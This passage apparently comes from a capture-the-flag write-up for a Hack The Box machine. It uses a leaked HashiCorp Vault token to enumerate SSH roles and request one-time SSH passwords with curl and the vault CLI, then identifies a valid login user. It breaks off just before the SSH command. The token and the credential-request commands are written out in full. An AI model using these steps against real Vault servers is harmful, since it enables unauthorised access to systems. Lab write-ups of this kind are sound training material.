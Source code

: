 ```markdwn
> export VAULT_TOKEN="hvs.CAESIJlU9JMYEhOPYv4igdhm9PnZDrabYTobQ4Ymnlq1qY-LGh4KHGh2cy43OVRNMnZhakZDRlZGdGVzN09xYkxTQVE"

> export VAULT_ADDR="http://prd23-vault-internal.skyfall.htb"

> ./vault token capabilities ssh/roles
list

> ./vault list ssh/roles
Keys
----
admin_otp_key_role
dev_otp_key_role
```
Next, request a key for `dev_otp_key_role` using the token (the token is not valid for getting a key for `admin_otp_key_role`).
```markdown
> curl -s -X POST -H "X-Vault-Token: hvs.CAESIJlU9JMYEhOPYv4igdhm9PnZDrabYTobQ4Ymnlq1qY-LGh4KHGh2cy43OVRNMnZhakZDRlZGdGVzN09xYkxTQVE" http://prd23-vault-internal.skyfall.htb/v1/ssh/creds/dev_otp_key_role --data '{ "ip": "10.10.11.254" }' | jq
{
  "request_id": "f7a109ef-42b8-5e8e-9ec4-8ef421fc9ecc",
  "lease_id": "ssh/creds/dev_otp_key_role/849HoIpC4J5LwjyyrUuwPBYV",
  "renewable": false,
  "lease_duration": 2764800,
  "data": {
    "ip": "10.10.11.254",
    "key": "13a7122b-3345-7e5b-da9c-832f1901b687",
    "key_type": "otp",
    "port": 22,
    "username": "nobody"
  },
  "wrap_info": null,
  "warnings": null,
  "auth": null
}
```
Or with the `vault` command line binary.
```markdwon
> ./vault write ssh/creds/dev_otp_key_role ip=10.10.11.254
Key                Value
---                -----
lease_id           ssh/creds/dev_otp_key_role/3wePhQCE63bptOYaVseHqvJl
lease_duration     768h
lease_renewable    false
ip                 10.10.11.254
key                ecc91958-6ca4-58d3-273d-f8bb82b76717
key_type           otp
port               22
username           nobody
```
The key provided is the OTP password for the SSH session. Notice the OTP expires very soon. As indicated in the API docuemntation, the token status can be checked by querying the OTP key against the endpoint `/ssh/verify`<br>
<br>
In the documentation (https://developer.hashicorp.com/vault/docs/secrets/ssh/one-time-ssh-passwords) there is a way to automatize the process to request a key and immediately SSH into the host (had to install the `sshpass` package first), so you make sure the token does not expire between the two steps.<br>
<br>
Also, note the user `nobody` is not actually a system user. If you try with the list of potential usernames disclosed before, you'll find user `askyy` is a valid username for SSH login.<br>
<br>
Bearing all this in mind, the command to get an SSH session for user `askyy` is the following.